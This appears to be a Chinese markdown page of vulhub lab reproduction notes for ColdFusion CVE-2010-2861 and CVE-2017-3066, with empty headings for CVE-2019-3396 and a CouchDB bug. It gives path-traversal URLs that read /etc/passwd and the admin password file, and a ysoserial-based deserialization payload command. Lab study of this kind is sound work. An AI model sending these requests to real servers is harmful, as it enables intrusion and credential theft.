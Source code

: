 # vulhub 

## [CVE-2010-2861](https://blog.csdn.net/JiangBuLiu/article/details/93997549)

### 漏洞复现

**访问**
```
http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en，
```

即可读取文件/etc/passwd


**读取后台管理员密码**
```
http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en

```

## [CVE-2017-3066](https://blog.csdn.net/JiangBuLiu/article/details/94001479)

### 
 n

### 漏洞复现

我们使用参考链接中的[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC：

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser
```

# [CVE-2019-3396路径穿越与命令执行漏洞](https://blog.csdn.net/JiangBuLiu/article/details/94001479)











# [Couchdb 垂直权限绕过漏洞（CVE-2017-12635）](https://www.cnblogs.com/foe0/p/11375757.html)

## [Couchdb 垂直权限绕过漏洞（CVE-2017-12635）](https://vulhub.org/#/environments/couchdb/CVE-2017-12635/)

